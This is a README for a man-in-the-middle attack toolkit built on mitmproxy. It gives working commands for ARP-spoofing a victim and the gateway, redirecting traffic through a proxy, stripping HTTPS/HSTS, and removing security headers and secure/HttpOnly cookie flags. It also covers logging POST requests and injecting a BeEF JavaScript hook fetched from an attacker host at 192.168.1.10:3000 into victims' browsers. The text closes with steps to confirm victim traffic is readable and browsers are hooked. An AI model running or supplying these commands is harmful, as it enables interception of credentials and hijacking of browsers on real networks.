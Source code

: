 MITM ATTACK WITH HTTP PROXYING (using [MITMPROXY](http://docs.mitmproxy.org/en/stable/) v1.0)
----------
  
You can run  **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-i] <interface> ip_target1 ip_target2
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-i] interface
```  
**/!\ Working with Mitmproxy v1.0. Mitmproxy will be automatically downloaded and installed.**  
  
Example of command for full interception (HTTPS/HSTS stripping when possible, otherwise Upstream Certificates):  
  
```
sudo ./mitm.sh -g -n -s -x -i wlan0 192.168.1.1 192.168.1.11
```
  
You also can inject a javascript payload (for example Beef payload):  
```
sudo ./mitm.sh -g -n -j http://192.168.1.10:3000/hook.js -i wlan0 192.168.1.1 192.168.1.11
```
  
While intercepting trafic, we also aims at:
 - Dropping the following request headers: *If-Modified-Since*,*Cache-Control*,*Upgrade-Insecure-Requests*
 - Dropping the following response headers: *Strict-Transport-Security*,*Public-Key-Pins*,*Content-Security-Policy*,*X-XSS-Protection*,*X-Frame-Options*
 - Dropping meta tag *Content-Security-Policy*
 - Dropping cookies flags *secure*, *HttpOnly*
 - Stripping https:// links and redirections
  
___
  
**mitm.sh** is automating the following steps:  

 - activate ip forwarding (all secured connections will be routed without interception):  
```bash
sysctl -w net.ipv4.ip_forward=1
```

 - avoid to send useless ICMP redirect messages
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

 - configure nat (8080 is the default listening port of mitmproxy):  
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  
 - and if you want to add HTTPS capture:
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```  
*The REDIRECT target is used to redirect packets and streams to the machine itself. This means that we could for example REDIRECT all packets destined for the HTTP ports to an HTTP proxy (useful for transparent proxying).*  

 - run arp spoofing with calling the script **arpoison.sh**:  
```bash
xterm -geometry 100x25+1+200 -hold -e arpspoof -t [ip victim] [ip route]
xterm -geometry 100x25+1+300 -hold -e arpspoof -t [ip route] [ip victim]
```
*N.B: arpoison.sh can try to force the arp poisoning of some boxes*  

 - check if arp poisoning is working on both ways with **chk_poison.py**:  
```bash
python ./chk_poison.py [ip victim] [ip route]
```

 - run mitmproxy with our custom **sslstrip.py** module, the **injectjs.py** module and the **io_write_dumpfile.py** module. io_write_dumpfile.py is logging only relevant POST requests (if you want to log trafic, **-a \<logfilename\>**):  
```bash
mitmproxy -T --anticache --host --anticomp --noapp --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py --eventlog
```  
  
*N.B: mitmproxy (with option -w/-a for logging) will dump the whole flows in a tnetstrings format.*  
  
You can also run mitmdump (same as mitmproxy but non interactive):  
```bash
mitmdump -T --anticache --host --anticomp --noapp --quiet --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py"
```
 
 - if you want to extra log urls in a file:   
```bash
urlsnarf > ./urlsnarf.txt &
```
  
**Now go on a website with an unsecured (http) landing webpage and try to click on a link forwarding to a secure area. All trafic should stay clear between the victim and mitmproxy.  
If you injected a Beef hook thanks to the -j option, also check the browser hooked in your Beef panel.**  
  
**Don't hesitate to contribute to all of these modules.**


